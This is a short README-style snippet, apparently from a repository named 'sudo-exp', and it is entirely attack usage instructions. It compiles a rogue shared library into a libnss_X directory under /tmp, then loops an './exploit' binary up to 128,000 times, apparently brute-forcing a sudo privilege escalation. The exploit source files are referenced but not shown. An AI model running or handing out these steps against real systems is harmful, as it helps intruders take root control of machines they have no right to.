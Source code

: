 # sudo-exp
cd /tmp
mkdir libnss_X
gcc -fpic -shared -nostdlib -o libnss_X/X.so.2 la.c
for i in {1..128000}; do echo -n "try number $i "; ./exploit; done
